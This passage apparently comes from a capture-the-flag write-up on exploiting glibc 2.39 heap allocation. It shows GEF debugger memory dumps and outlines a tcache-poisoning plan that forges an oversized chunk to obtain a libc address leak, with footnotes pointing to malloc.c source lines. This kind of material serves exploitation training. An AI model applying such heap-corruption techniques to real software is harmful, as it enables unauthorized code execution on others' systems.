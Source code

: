 ```sh
gef> tele &chunks 8
      0x5566bb8fd040|+0x0000|+000: 0x00005566e26da2a0  ->  0x00000005566e26da
      0x5566bb8fd048|+0x0008|+001: 0x00005566e26da2e0  ->  0x00005563b4038e65
      0x5566bb8fd050|+0x0010|+002: 0x00005566e26da320  ->  0x0000000000000063
      0x5566bb8fd058|+0x0018|+003: 0x00005566e26da2e0  ->  0x00005563b4038e65
      0x5566bb8fd060|+0x0020|+004: 0x00005566e26da820  ->  0x6c6c6f72746e6f63 'controlled chunk allocation'
      0x5566bb8fd068|+0x0028|+005: 0x0000000000000000
      0x5566bb8fd070|+0x0030|+006: 0x0000000000000000
      0x5566bb8fd078|+0x0038|+007: 0x0000000000000000

gef> tele *((char**)&chunks)+0x580 4
      0x5566e26da820|+0x0000|+000: 0x6c6c6f72746e6f63 'controlled chunk allocation'
      0x5566e26da828|+0x0008|+001: 0x6b6e756863206465 'ed chunk allocation'
      0x5566e26da830|+0x0010|+002: 0x7461636f6c6c6120 ' allocation'
      0x5566e26da838|+0x0018|+003: 0x00000000006e6f69 ('ion'?)

gef> tele ((char**)&chunks)[4] 4
      0x5566e26da820|+0x0000|+000: 0x6c6c6f72746e6f63 'controlled chunk allocation'
      0x5566e26da828|+0x0008|+001: 0x6b6e756863206465 'ed chunk allocation'
      0x5566e26da830|+0x0010|+002: 0x7461636f6c6c6120 ' allocation'
      0x5566e26da838|+0x0018|+003: 0x00000000006e6f69 ('ion'?)
```

## Getting Libc Leak

### Heap Grooming

Since the application never allocate large chunks, we would need to forge our
own fake large chunk and free it into unsorted bin to obtain libc leak.

Roughly, our plan is to allocate a chunk at `0x5566e26da300` (need to be 16-byte aligned)
with tcache poisoning to overwrite chunk-2 size with a huge number larger than tcache bin
max chunk size (>= 0x420). Finally we would delete chunk 2 with its new huge size
and hoping that it would be moved into unsorted bin.

```sh
0x5566e26da2a0|+0x0000|+000: 0x00000005566e26da
0x5566e26da2a8|+0x0008|+001: 0x261a7d915e125039
0x5566e26da2b0|+0x0010|+002: 0x0000000000000000
0x5566e26da2b8|+0x0018|+003: 0x0000000000000000
0x5566e26da2c0|+0x0020|+004: 0x0000000000000000
0x5566e26da2c8|+0x0028|+005: 0x0000000000000000
0x5566e26da2d0|+0x0030|+006: 0x0000000000000000
0x5566e26da2d8|+0x0038|+007: 0x0000000000000041  # chunk-1 size
0x5566e26da2e0|+0x0040|+008: 0x00005563b4038e65  # chunk-1 data
0x5566e26da2e8|+0x0048|+009: 0x0000000000000000
0x5566e26da2f0|+0x0050|+010: 0x0000000000000000
0x5566e26da2f8|+0x0058|+011: 0x0000000000000000
0x5566e26da300|+0x0060|+012: 0x0000000000000000  # allocate chunk here
0x5566e26da308|+0x0068|+013: 0x0000000000000000
0x5566e26da310|+0x0070|+014: 0x0000000000000000
0x5566e26da318|+0x0078|+015: 0x0000000000000041  # chunk-2 size
0x5566e26da320|+0x0080|+016: 0x0000000000000063  # chunk-2 data
0x5566e26da328|+0x0088|+017: 0x0000000000000000
0x5566e26da330|+0x0090|+018: 0x0000000000000000
0x5566e26da338|+0x0098|+019: 0x0000000000000000
0x5566e26da340|+0x00a0|+020: 0x0000000000000000
0x5566e26da348|+0x00a8|+021: 0x0000000000000000
0x5566e26da350|+0x00b0|+022: 0x0000000000000000
0x5566e26da358|+0x00b8|+023: 0x0000000000020cb1
```


[^1]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L329>
[^2]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4513>
[^3]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4678>
[^4]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4720>
[^5]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4538>
[^6]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4527>
[^9]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4041>
[^10]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3914>
[^11]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3977>
[^12]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4161>
[^99]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1812>